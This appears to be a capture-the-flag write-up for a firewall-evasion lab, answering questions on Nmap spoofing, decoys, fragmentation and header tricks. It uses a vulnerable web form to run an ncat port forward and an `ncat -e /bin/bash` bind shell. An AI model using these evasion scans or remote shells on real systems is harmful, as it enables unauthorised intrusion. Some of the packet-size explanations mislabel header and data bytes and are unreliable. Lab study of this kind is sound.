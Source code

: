 
# Writeup for RedTeamFirewalls

### Task 3 Evasion via Controlling the Source MAC/IP/Port

> What is the size of the IP packet when using a default Nmap stealth (SYN) scan?
Add the size of the TCP header and the IP header to find the total size of the packet. 

`24` + `20` = `44`

> How many bytes does the TCP segment hold in its data field when using a default Nmap stealth (SYN) scan?

A default SYN scan holds `0` bytes in its data field.

> Approximately, how many packets do you expect Nmap to send when running the command ```nmap -sS -F MACHINE_IP```? Approximate to the nearest 100, such as 100, 200, 300, etc.

The answer is `200` packets. -F Scans the top 100 ports and each port is expected to recieve 2 SYN packets.

> Approximately, how many packets do you expect Nmap to send when running the command nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F MACHINE_IP? Approximate to the nearest 100, such as 100, 200, 300, etc.

2 packets per port * 100 ports * 4 IPs = `800`

> What do you expect the target to see as the source of the scan when you run the command nmap -sS -Pn --proxies 10.10.13.37 MACHINE_IP

`10.10.13.37`

> What company has registered the following Organizationally Unique Identifier (OUI), i.e., the first 24 bits of a MAC address, 00:02:DC?

Lookup `00:02:DC` on https://macaddress.io/ the answer is `Fujitsu General Ltd`

> To mislead the opponent, you decided to make your port scans appear as if coming from a local access point that has the IP address 10.10.0.254. What option needs to be added to your Nmap command to spoof your address accordingly?

`-S 10.10.0.254`

> You decide to use Nmap to scan for open UDP ports. You notice that using nmap -sU -F MACHINE_IP to discover the open common UDP ports won’t give you any meaningful results. What do you need to add to your Nmap command to set the source port number to 53?

`-g 53`

### Task 4 Evasion via Forcing Fragmentation, MTU, and Data Length

> What is the size of the IP packet when running Nmap with the -f option?

`8` (fragmented TCP header) + `20` (size of data fragment) = `28`

> What is the maximum size of the IP packet when running Nmap with the -ff option?

`16` (fragmented TCP header) + `20` (size of data fragment) = `36`

> What is the maximum size of the IP packet when running Nmap with --mtu 36 option?

`36` (fragmented TCP header) + `20` (size of data fragment) = `56`
 
> What is the maximum size of the IP packet when running Nmap with --data-length 128 option?

`128` (fragmented TCP header) + `20` (size of data fragment) = `148`

### Task 5 Evasion via Modifying Header Fields

> Scan the attached MS Windows machine using --ttl 2 option. How many ports appear to be open?

`3`

> Scan the attached MS Windows machine using the --badsum option. How many ports appear to be open?

`0`

> Using this simple technique, discover which port number is reachable from the protected system.

`nc -lvnp 1025` on Attacker Machine, `nc AttkIP 21` on target machine.

Answer is `21`

> We have a web server listening on the HTTP port, 80. The firewall is blocking traffic to port 80 from the untrusted network; however, we have discovered that traffic to TCP port 8008 is not blocked. We’re continuing to use the web-form from Task 6 to set up the ncat listener that forwards the packets received to the forwarded port. Using port tunneling, browse to the web server and retrieve the flag.

1. On the vulnerable web form, execute `ncat -lvnp 8008 -c "ncat localhost 80"`
2. On the Attack Machine, execute `nc 10.10.175.124 8008`
3. Perform a `GET /` request from the netcat terminal on the Attack Machine to the Target to display the flag.

### Task 8

> We’re continuing to use the web-form from Task 6 to set up the ncat listener. Knowing that the firewall does not block packets to destination port 8081, use ncat to listen for incoming connections and execute Bash shell. Use the AttackBox to connect to the listening shell. What is the user name associated with which you are logged in?

1. On the vulnerable web form, execute `ncat -lvnp 8081 -e /bin/bash`
2. On the Attack Machine, execute `ncat 10.10.175.124 8081`
3. Execute `whoami` on the netcat terminal on the attack machine to get the username

### Task 9

> What is the number of the highest OSI layer that an NGFW can process?

`7`
